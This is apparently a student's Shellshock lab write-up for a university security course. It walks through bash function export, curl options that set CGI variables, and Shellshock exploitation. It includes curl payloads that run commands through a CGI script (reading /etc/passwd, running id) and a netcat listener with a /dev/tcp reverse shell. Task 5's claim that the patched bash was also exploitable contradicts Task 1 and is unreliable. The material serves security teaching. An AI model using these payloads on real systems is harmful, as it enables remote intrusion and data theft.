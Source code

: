 Task1: "/bin/bash_shellshock" echo $foo didn't print foo as environment but "declare -f foo" printed the definition of foo as a function due to the 
    vulnerability of bash_shellshock.
    "bin/bash" echo $foo printed foo as an environment variable which has been passed by the parent, but "declare -f foo" didn't print the definition 
    since it is not considered as a function since it is not considered asa  function. 
    
 Task2: -v prints out the variables and values from the http packet. 
        -A sets the HTTP_USER_AGENT variable
        -e sets the HTTP_REFERER variable
        -H "AAAAAA: BBBBBB" creates HTTP_AAAAAA and sets it to value BBBBBB
        
        the -H, -A and -e can be used to create arbitary variables. 
        
        
   ![Comp seclab2 2.2.1v](https://github.com/Rania-ME/csci-476-594-spring2021-private/blob/main/Comp%20seclab2%202.2.1v.JPG)
        
   ![Comp seclab2 2.2.2A](https://github.com/Rania-ME/csci-476-594-spring2021-private/blob/main/Comp%20seclab2%202.2.2A.JPG)
        
   ![Comp seclab2 2.2.3e](https://github.com/Rania-ME/csci-476-594-spring2021-private/blob/main/Comp%20seclab2%202.2.3e.JPG)
        
   ![Comp seclab2 2.2.4H](https://github.com/Rania-ME/csci-476-594-spring2021-private/blob/main/Comp%20seclab2%202.2.4H.JPG)
        
        
        
  Task3: curl -A "() { echo; cat /etc/passwd;}" http://localhost/cgi-bin/myprog2.cgi
         curl -A "() { echo; bin/id;}" http://localhost/cgi-bin/myprog2.cgi
         curl -A "() { echo; touch /tmp/fil;}" http://localhost/cgi-bin/myprog2.cgi
         curl -A "() { echo; rm /tmp/fil;}" http://localhost/cgi-bin/myprog2.cgi
         It is only a writable file. 
         
         
   ![Comp seclab2 3.1](https://github.com/Rania-ME/csci-476-594-spring2021-private/blob/main/Comp%20seclab2%203.1.JPG)
         
         
 Task4: "nc -lv 9090" on the attacker machine
         The attacker machine acts as a linstener till it finds traffic in the same port it is listening to. 
         "bin/bash -i > /dev/tcp/10.2.6/9090 0<&1 2>&1
         In real attacks we have to inject the code in the victims machin; yet, for demonstration purposes, we're running the command directly on the victims machine. 
Task5: The attack was possible with "bash" intstead of "bash_shellshock"
